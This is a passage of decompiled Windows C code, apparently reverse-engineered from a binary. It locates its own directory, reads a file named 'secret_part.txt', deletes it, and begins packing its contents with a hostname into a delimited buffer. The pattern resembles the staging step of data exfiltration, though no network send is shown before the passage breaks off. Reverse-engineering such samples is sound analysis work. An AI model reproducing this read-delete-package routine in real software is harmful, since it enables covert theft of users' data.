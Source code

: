```velocity
    strncpy((char *)local_140,"UNKNOWN_HOST",0xff);
    local_41 = 0;
  }
  fflush((FILE *)(_iob_exref + 0x20));
  puVar5 = local_244;
  for (iVar3 = 0x41; iVar3 != 0; iVar3 = iVar3 + -1) {
    *puVar5 = 0;
    puVar5 = puVar5 + 1;
  }
  pCVar6 = local_348;
  for (iVar3 = 0x41; iVar3 != 0; iVar3 = iVar3 + -1) {
    pCVar6[0] = '\0';
    pCVar6[1] = '\0';
    pCVar6[2] = '\0';
    pCVar6[3] = '\0';
    pCVar6 = pCVar6 + 4;
  }
  local_30 = _GetModuleFileNameA@12((HMODULE)0x0,local_348,0x104);
  if ((local_30 == 0) || (0x103 < local_30)) {
    local_244[0]._0_2_ = 0x2e;
  }
  else {
    for (local_24 = local_348 + (local_30 - 1);
        ((local_348 <= local_24 && (*local_24 != '\\')) && (*local_24 != '/'));
        local_24 = local_24 + -1) {
    }
    if (local_24 < local_348) {
      local_244[0]._0_2_ = 0x2e;
    }
    else {
      local_28 = (int)local_24 - (int)local_348;
      if (local_28 == 0) {
        strncpy((char *)local_244,local_348,0x103);
        local_141 = 0;
      }
      else {
        if (0x103 < local_28) {
          local_28 = 0x103;
        }
        strncpy((char *)local_244,local_348,local_28);
        *(undefined1 *)((int)local_244 + local_28) = 0;
      }
    }
  }
  local_34 = strlen((char *)local_244);
  if ((local_34 == 0) ||
     ((*(char *)((int)local_244 + local_34 + -1) != '\\' &&
      (*(char *)((int)local_244 + local_34 + -1) != '/')))) {
    _snprintf(local_44c,0x104,"%s\\secret_part.txt",local_244);
  }
  else {
    _snprintf(local_44c,0x104,"%ssecret_part.txt",local_244);
  }
  local_450 = (void *)0x0;
  local_454 = 0;
  read_file_to_buffer(local_44c,(int *)&local_450,&local_454);
  _DeleteFileA@4(local_44c);
  iVar3 = strlen(local_2c);
  iVar1 = strlen((char *)local_140);
  local_38 = local_454 + iVar3 + iVar1 + 10;
  local_3c = (BYTE *)malloc(local_38);
  if (local_454 == 0) {
    _snprintf((char *)local_3c,local_38,"%s|%s|",local_2c,local_140);
```